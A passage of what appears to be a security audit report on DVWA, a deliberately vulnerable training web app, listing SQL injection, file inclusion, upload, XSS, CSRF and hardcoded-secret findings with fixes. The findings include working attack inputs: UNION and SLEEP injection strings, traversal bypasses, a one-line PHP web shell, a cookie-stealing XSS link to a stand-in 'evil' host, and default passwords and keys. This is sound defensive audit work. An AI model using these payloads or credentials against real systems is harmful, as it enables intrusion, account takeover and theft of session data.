**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.5](#35-sql-injection-in-high)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/sqli/source/low.php:11`

**Issue:** An authenticated user submits `id=1`' `UNION SELECT user,password FROM users`-- -. The value is put inside quotes in the SELECT string and run by `mysqli_query` (or SQLite query), so the attacker can dump user password hashes.

**Evidence:** ✓ verified

```
   9 │ 			// Check database
  10 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
→ 11 │ 			$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
  12 │
  13 │ 			// Get results
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-029](#m-029) — Use parameterized queries for the user ID lookup

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.6](#36-sql-injection-in-low)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · SQL injection in unquoted numeric context despite escaping

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/sqli/source/medium.php:12`

**Issue:** An authenticated user POSTs `id=1` `UNION SELECT user,password FROM users`. `mysqli_real_escape_string` does not stop this payload because the value is placed in the query without quotes, so the injected SQL runs.

**Evidence:** ✓ verified

```
  10 │ 		case MYSQL:
  11 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
→ 12 │ 			$result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
  13 │
  14 │ 			// Get results
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-030](#m-030) — Bind the ID as an integer parameter

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Blind SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/sqli_blind/source/high.php:13`

**Issue:** An authenticated user sets the id cookie directly, or through `cookie-input.php`, to 1' AND `SLEEP(10)`-- -. `sqli_blind/source/high.php` puts the cookie value inside quotes in the query and runs it, which allows boolean or time-based data extraction.

**Evidence:** ✓ verified

```
  11 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
  12 │ 			try {
→ 13 │ 				$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors
  14 │ 			} catch (Exception $e) {
  15 │ 				$result = false;
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-031](#m-031) — Parameterize the query and validate the cookie value

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Blind SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/sqli_blind/source/low.php:13`

**Issue:** An authenticated user requests ?`id=1`' AND `SLEEP(5)`-- -&Submit=1. The quoted value is concatenated into the query, and the attacker infers database contents from the timing or from the exists/missing responses.

**Evidence:** ✓ verified

```
  11 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
  12 │ 			try {
→ 13 │ 				$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors
  14 │ 			} catch (Exception $e) {
  15 │ 				print "There was an error.";
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-032](#m-032) — Use prepared statements for the existence check

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Blind SQL injection in unquoted context despite escaping

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/sqli_blind/source/medium.php:15`

**Issue:** An authenticated user POSTs `id=1` AND `SLEEP(3)`. Escaping has no effect on this quote-free payload in the unquoted numeric context, so the injected condition runs.

**Evidence:** ✓ verified

```
  13 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
  14 │ 			try {
→ 15 │ 				$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors
  16 │ 			} catch (Exception $e) {
  17 │ 				print "There was an error.";
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ◕ [M-030](#m-030) — Bind the ID as an integer parameter

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Wildcard filename check allows file scheme inclusion

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/fi/source/high.php:7`

**Issue:** The high level accepts any page matching `fnmatch('file*')`, so page=`file:///etc/passwd` passes validation and the include could read arbitrary local files. The include sink in `fi/index.php` was not read in this job.

**Evidence:** ◌ ambiguous

```
  5 │
  6 │ // Input validation
→ 7 │ if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
  8 │ 	// This isn't the page we want!
  9 │ 	echo "ERROR: File not found!";
```

**Fix:** ◑ [M-003](#m-003) — Manual review: verify Wildcard filename check allows file scheme inclusion · ◕ [M-033](#m-033) — Allowlist exact include filenames

**Classification:** Insecure File Handling · STRIDE: Tampering · [CWE-98](https://cwe.mitre.org/data/definitions/98.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Non-recursive traversal filter bypass in file inclusion

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/fi/source/medium.php:8`

**Issue:** The page parameter has '../' and `'http://'` removed in a single pass. Input such as '....//....//etc/passwd' or `'hthttp://tp://'` collapses back to a traversal or remote URL, and absolute paths are never filtered. The include sink in `fi/index.php` was not read in this job.

**Evidence:** ◌ ambiguous

```
   6 │ // Input validation
   7 │ $file = str_replace( array( "http://", "https://" ), "", $file );
→  8 │ $file = str_replace( array( "../", "..\\" ), "", $file );
   9 │
  10 │ ?>
```

**Fix:** ◑ [M-004](#m-004) — Manual review: verify Non-recursive traversal filter bypass in file inclusion · ◕ [M-033](#m-033) — Allowlist exact include filenames

**Classification:** Insecure File Handling · STRIDE: Tampering · [CWE-98](https://cwe.mitre.org/data/definitions/98.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Path traversal in source viewer reads

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/view_source.php:63`

**Found by:** survey and verification ([TC-FILE-01](#tc-file-01))

**Weakness:** [W-002](#w-002) - Input handling lacks enforced boundary validation

**Issue:** At `vulnerabilities/view_source.php:63` the unvalidated id and security GET values are joined into a `file_get_contents` path ending in .php, and the file is echoed with `highlight_string`. Any logged-in DVWA user passes `dvwaPageStartup(array('authenticated'))`.

The switch on id only sets a label, and its default branch accepts any value.

**Evidence:** ✓ verified

```
  61 │ 	}
  62 │
→ 63 │ 	$source = @file_get_contents( DVWA_WEB_PAGE_TO_ROOT . "vulnerabilities/{$id}/source/{$security}.php" );
  64 │ 	$source = str_replace( array( '$html .=' ), array( 'echo' ), $source );
  65 │
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ◕ [M-036](#m-036) — Allowlist module IDs and security levels

**Classification:** Insecure File Handling · STRIDE: Information Disclosure · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-01](#tc-file-01)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Unauthenticated legacy user API version exposes password hashes

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/api/src/User.php:45`

**Issue:** An unauthenticated caller requests GET `/vulnerabilities/api/v1/user/`. The front controller parses the version number from the path, `getAllUsers` performs no authentication, and User::`toArray` for version 1 includes the unsalted `SHA-256` password hash of every user.

The attacker can then crack these hashes offline.

**Evidence:** ✓ verified

```
  43 │ 					"name" => $this->name,
  44 │ 					"level" => $this->level,
→ 45 │ 					"password" => $this->password,
  46 │ 				);
  47 │ 				break;
```

**Fix:** ◕ [M-037](#m-037) — Retire v1 serializer and require auth on user API

**Classification:** Broken Authentication · STRIDE: Information Disclosure · [CWE-522](https://cwe.mitre.org/data/definitions/522.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Unrestricted file upload into web-served directory keeps client name

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/upload/source/low.php:9`

**Found by:** survey and verification ([TC-FILE-02](#tc-file-02))

**Weakness:** [W-011](#w-011) - Unrestricted file upload into web-served directory keeps client name and extensi

**Issue:** At `vulnerabilities/upload/source/low.php:9` an authenticated user uploads `shell.php`, for example containing <?php system(\$_GET['c']); ?>, through the upload form. The low-level code moves the file into hackable/uploads under its original basename, with no type, extension or size check, and echoes the path back.

`basename()` only prevents directory traversal in the target name.

**Evidence:** ✓ verified

```
   7 │
   8 │ 	// Can we move the file to the upload folder?
→  9 │ 	if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
  10 │ 		// No
  11 │ 		$html .= '<pre>Your image was not uploaded.</pre>';
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◕ [M-039](#m-039) — Validate and re-encode uploads with random names

**Classification:** Insecure File Handling · STRIDE: Elevation of Privilege · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-02](#tc-file-02)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Upload filter trusts client-supplied MIME type

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/upload/source/medium.php:14`

**Found by:** survey and verification ([TC-FILE-02](#tc-file-02))

**Weakness:** [W-012](#w-012) - Upload filter trusts client-supplied MIME type (`medium.php:14`)

**Issue:** At `vulnerabilities/upload/source/medium.php:14` the medium level accepts a file when the client-controlled multipart `Content-Type` is image/jpeg or image/png. It also checks the size limit of under 100000 bytes (line 15) and applies `basename()` to the stored name.

The file is stored in hackable/uploads with its .php name and could run when requested.

**Evidence:** ✓ verified

```
  12 │
  13 │ 	// Is it an image?
→ 14 │ 	if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
  15 │ 		( $uploaded_size < 100000 ) ) {
  16 │
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◕ [M-040](#m-040) — Validate uploads server-side by extension and content

**Classification:** Insecure File Handling · STRIDE: Elevation of Privilege · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-02](#tc-file-02)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Unauthenticated CBC token with padding oracle

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/cryptography/source/token_library_high.php:101`

**Issue:** `check_token` decrypts AES-128-CBC with a caller-supplied IV and has no integrity check. It also returns a distinct status 526 when decryption fails. The static IV and hardcoded key make this worse.

**Evidence:** ✓ verified

```
   99 │ 					);
  100 │ 		try {
→ 101 │ 			$d = decrypt ($ciphertext, $iv);
  102 │ 			if (preg_match ("/^userid:(\d+)$/", $d, $matches)) {
  103 │ 				$id = $matches[1];
```

**Fix:** ◕ [M-041](#m-041) — Switch tokens to AES-GCM with random IVs

**Classification:** Cryptographic Failures · STRIDE: Elevation of Privilege · [CWE-649](https://cwe.mitre.org/data/definitions/649.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Seeded accounts use trivially guessable default passwords

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - DVWA web application  ·  **Location:** `dvwa/includes/DBMS/MySQL.php:55`

**Found by:** verification ([TC-AUTHN-04](#tc-authn-04))

**Issue:** An unauthenticated attacker reaching `login.php` submits admin/password (or smithy/password, pablo/letmein); the login query matches the seeded row and `dvwaLogin` creates an authenticated admin session. Anyone who can reach the web interface obtains the admin account and all application functions without any prior credential.

**Evidence:** ✓ verified - `MySQL.php:55-59` seeds admin and smithy with 'password', gordonb 'abc123', pablo 'letmein'; `login.php:39-43` grants a session on a match.

```
  53 │
  54 │ $insert = "INSERT INTO users VALUES
→ 55 │ 	('1','admin','admin','admin',MD5('password'),'{$av**** (21 chars)', NOW(), '0'),
  56 │ 	('2','Gordon','Brown','gordonb',MD5('abc123'),'{$avatarUrl}gordonb.jpg', NOW(), '0'),
  57 │ 	('3','Hack','Me','1337',MD5('charley'),'{$avatarUrl}1337.jpg', NOW(), '0'),
```

**Fix:** Enforce a length and complexity policy and reject reused / breached passwords → ◕ [M-020](#m-020) — Remove default passwords and enforce a password policy

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-521](https://cwe.mitre.org/data/definitions/521.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Unauthenticated database reset

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-306  ·  **Component:** [C-04](#c-04) - DVWA web application  ·  **Location:** `setup.php:6`

**Issue:** An unauthenticated client GETs `setup.php` to get a fresh CSRF token, then POSTs `create_db` with that token. The included `MySQL.php` drops and recreates the database and resets admin to the known password. This destroys all data and hands the attacker the admin account.

**Evidence:** ✓ verified

```
  4 │ require_once DVWA_WEB_PAGE_TO_ROOT . 'dvwa/includes/dvwaPage.inc.php';
  5 │
→ 6 │ dvwaPageStartup( array( ) );
  7 │
  8 │ $page = dvwaPageNewGrab();
```

**Fix:** ◕ [M-042](#m-042) — Require authentication on every exposed endpoint

**Classification:** Unauthenticated Management Plane · STRIDE: Elevation of Privilege · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · walkthrough [Walkthrough §3.7](#37-unauthenticated-database-reset-in-dvwa-web-application)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Missing Anti-CSRF Tokens on State-Changing Actions

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** Multiple locations (3)

**Instances (3):** `vulnerabilities/captcha/source/low.php`: 60; `vulnerabilities/csrf/source/low.php`: 3; `vulnerabilities/xss_s/index.php`: 16

**Issue:** An attacker gets a logged-in victim to load an image or link such as ?`password_new=x`&`password_conf=x`&Change=Change. The victim's password is changed without any token or current-password check, and the attacker takes over the account.

**Evidence:** ✓ verified - A state-changing request can be triggered cross-origin without a synchroniser token.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◕ [M-015](#m-015) — Require anti-CSRF token and current password

**Classification:** Cross-Site Request Forgery (CSRF) · STRIDE: Tampering · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · DOM XSS from URL default parameter written

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/xss_d/index.php:53`

**Found by:** survey and verification ([TC-INPUT-04](#tc-input-04))

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** At `vulnerabilities/xss_d/index.php:53` the inline page script takes everything after 'default=' from `location.href`, including a fragment the server never sees, and writes `decodeURI(lang)` into the document with `document.write`. An attacker sends a logged-in victim a link such as `/vulnerabilities/xss_d/?default=English`#`<script>``fetch('//evil/'+document.cookie)``</script>` or ?default=`<script>`...`</script>`.

The impossible level removes only `decodeURI` (lines 35-38), so browser percent-encoding remains, but lang is still written raw into the value attribute.

**Evidence:** ✓ verified

```
  51 │ 					if (document.location.href.indexOf("default=") >= 0) {
  52 │ 						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
→ 53 │ 						document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
  54 │ 						document.write("<option value='' disabled='disabled'>----</option>");
  55 │ 					}
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◕ [M-022](#m-022) — Encode output instead of bypassing the framework sanitizer (🟠 [F-009](#f-009))

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Reflected cross-site scripting

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/xss_r/source/low.php:8`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends a logged-in victim a link with ?name=``. `low.php` concatenates the raw value into \$html, `medium.php` only removes the literal '`<script>`' and `high.php` only removes s-c-r-i-p-t sequences, so event-handler payloads run in the victim's DVWA origin and can steal the session cookie.

**Evidence:** ✓ verified

```
   6 │ if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
   7 │ 	// Feedback for end user
→  8 │ 	$html .= '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
   9 │ }
  10 │
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◕ [M-023](#m-023) — HTML-encode the name parameter on output

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Stored guestbook name and message persisted without HTML encoding

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/xss_s/source/low.php:16`

**Weakness:** [W-003](#w-003) - Frontend rendering lacks enforced output encoding

**Issue:** An authenticated attacker signs the guestbook with markup in `txtName` (and, at low level, `mtxMessage`). Only SQL escaping is applied at low, medium's name filter removes just '`<script>`', and high's regex leaves event-handler markup, so the payload is stored and later rendered to every viewer by `dvwaGuestbook()`.

**Evidence:** ◌ ambiguous - `low.php:16`, `medium.php:14`/18 and `high.php:14`/18 store name without HTML encoding. The rendering consumer `dvwaGuestbook()` lives in dvwa/includes, which is not readable, so browser execution is not proven here.

```
  14 │
  15 │ 	// Update database
→ 16 │ 	$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
  17 │ 	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
  18 │
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-002](#m-002) — Manual review: verify Stored guestbook name and message persisted without HTML encoding · ◕ [M-024](#m-024) — HTML-encode guestbook fields at render time

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · CSRF Referer check bypass

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/csrf/source/medium.php:5`

**Issue:** The medium level only checks that `SERVER_NAME` appears anywhere in the Referer, using stripos. An attacker hosts the forging page at a URL that contains the target host name, such as `http://evil.test/dvwa.local.html`, and changes the victim's password.

**Evidence:** ✓ verified - A state-changing request can be triggered cross-origin without a synchroniser token.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◕ [M-034](#m-034) — Replace Referer substring check with CSRF tokens

**Classification:** Cross-Site Request Forgery (CSRF) · STRIDE: Tampering · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · All repository secrets base64-encoded into public workflow

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `.github/workflows/vulnerable.yml:54`

**Weakness:** [W-009](#w-009) - All repository secrets base64-encoded into public workflow logs

**Issue:** On every push to master the `get_secrets` job serialises every repository secret with `toJSON(secrets)` and echoes it piped through base64. GitHub's log masking only redacts exact secret strings, so the encoded output appears in clear in the run log.

Anyone who can read Actions logs, which means any internet user if the repository is public, can decode it and recover `DVWA_SECRET_KEY` and every other configured secret. All repository secrets, plus the job's `GITHUB_TOKEN` while the job runs, are disclosed to anyone who can read the workflow logs.

**Evidence:** ✓ verified - `vulnerable.yml:31` sets ALLMYSECRETS to `toJSON(secrets)`; line 51 pipes `SUPER_SECRET` through base64 and line 54 pipes ALLMYSECRETS through base64, both into the job log. The job runs on every push to master (lines 3-6).

```yaml
  52 │
  53 │           # Same for all the tokens.
→ 54 │           echo "$ALLMYSECRETS" | base64
```

**Fix:** Strip secrets and PII from every log sink and rotate any token that already leaked → ◕ [M-035](#m-035) — Remove secret-echoing workflow and rotate exposed secrets

**Classification:** Missing Audit Logging & Accountability · STRIDE: Information Disclosure · [CWE-532](https://cwe.mitre.org/data/definitions/532.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

### 🟡 Medium (43)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Hardcoded weak MariaDB root and application credentials

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - MariaDB database  ·  **Location:** `compose.yml:31`

**Weakness:** [W-004](#w-004) - Secrets are committed to source instead of a managed store

**Trust boundary gap:** [tb-4](#tb-4) - DVWA web application → MariaDB database · Authentication: The tb-4 authentication leg assumes a non-default, least-privilege database password. The root password literal here breaks that assumption.

**Issue:** An attacker who gets code execution inside the dvwa container, for example through DVWA's intentionally vulnerable command-injection modules, connects to db:3306 as root with password 'dvwa' from `compose.yml`. They then fully control every database, including the users table with its password hashes.

Anyone who can reach the database gets full root control of MariaDB, so they can read, change or delete all DVWA data.

**Evidence:** ✓ verified - `compose.yml` line 31 sets `MYSQL_ROOT_PASSWORD`=dvwa and line 34 sets an 8-character literal `MYSQL_PASSWORD`, both in plaintext environment variables.

**Fix:** Move the credential out of source control into a secret store and rotate it → ◑ [M-043](#m-043) — Move MariaDB passwords into generated Docker secrets

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Hardcoded token encryption key allows bearer token forgery

**Severity:** 🟡 Medium - secret committed to the public source repo - extractable on clone, no prior access needed; elevated to Critical as a verified attack-chain keystone in AC-T-005 (Authentication Bypass via Exposed Secret Material); see [§9](#9-abuse-cases)  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/api/src/Token.php:10`

**Weakness:** [W-004](#w-004) - Secrets are committed to source instead of a managed store

**Issue:** Tokens are AES-GCM encrypted JSON with the fixed key 'Paintbrush' and the fixed secret '12345' from `Login.php`. Anyone with the source can mint a token with a far-future expiry that `check_access_token` accepts, which gives access to all order endpoints without logging in.

**Evidence:** ✓ verified

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ◑ [M-045](#m-045) — Load token key from secret storage and rotate

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Hardcoded OAuth client secret and user password

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/api/src/LoginController.php:86`

**Weakness:** [W-004](#w-004) - Secrets are committed to source instead of a managed store

**Issue:** The OAuth client id/secret and the only user's username/password are literal constants. Anyone who reads the repository can authenticate to `/login/login` and receive access tokens for the order API.

**Evidence:** ✓ verified

**Fix:** Move the credential out of source control into a secret store and rotate it → ◑ [M-053](#m-053) — Move credentials to a hashed credential store

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-064"></a><a id="f-064"></a>
#### F-064 · Hardcoded and undersized AES-256-GCM token key

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/cryptography/source/token_library_impossible.php:3`

**Weakness:** [W-004](#w-004) - Secrets are committed to source instead of a managed store

**Issue:** The 'impossible' token library hardcodes the same key as the high level, 'rainbowclimbinghigh', which is 19 bytes for AES-256. Anyone with source access can mint valid GCM tokens for any userid, including the admin.

**Evidence:** ✓ verified

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ◑ [M-070](#m-070) — Move cryptographic keys to a managed secret store (🟡 [F-064](#f-064))

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-074"></a><a id="f-074"></a>
#### F-074 · Profile access gated by a fixed hardcoded query-string token

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** `vulnerabilities/bac/source/medium.php:26`

**Found by:** survey and verification ([TC-AUTHN-07](#tc-authn-07))

**Weakness:** [W-004](#w-004) - Secrets are committed to source instead of a managed store

**Issue:** At `vulnerabilities/bac/source/medium.php:26` the medium BAC page compares the token query parameter with the hardcoded literal 'user_token' and does not check who owns the profile. The parts differ on the precondition. The static string comparison gives no real protection.

**Evidence:** ✓ verified

**Fix:** Move the credential out of source control into a secret store and rotate it → ◑ [M-077](#m-077) — Replace static token check with per-user ownership check

**Classification:** Cryptographic Failures · STRIDE: Elevation of Privilege · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-07](#tc-authn-07)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Broken MD5/SHA-1 Hash Primitive Usage

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** Multiple locations (3)

**Weakness:** [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives

**Instances (3):** `vulnerabilities/javascript/index.php`: 43; `vulnerabilities/javascript/source/low.php`: 18; `dvwa/includes/dvwaPage.inc.php`: 651

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for passwords or integrity of untrusted data.

**Evidence:** ◌ ambiguous

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◑ [M-001](#m-001) — Manual review: verify Broken MD5/SHA-1 Hash Primitive Usage · ◑ [M-017](#m-017) — Use modern cryptographic hash and KDF algorithms

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04), [TC-CRYPTO-01](#tc-crypto-01) · Rules: CRYPTO-PHP-001

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Login allows unlimited password guessing without lockout

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA API service  ·  **Location:** Multiple locations (2)

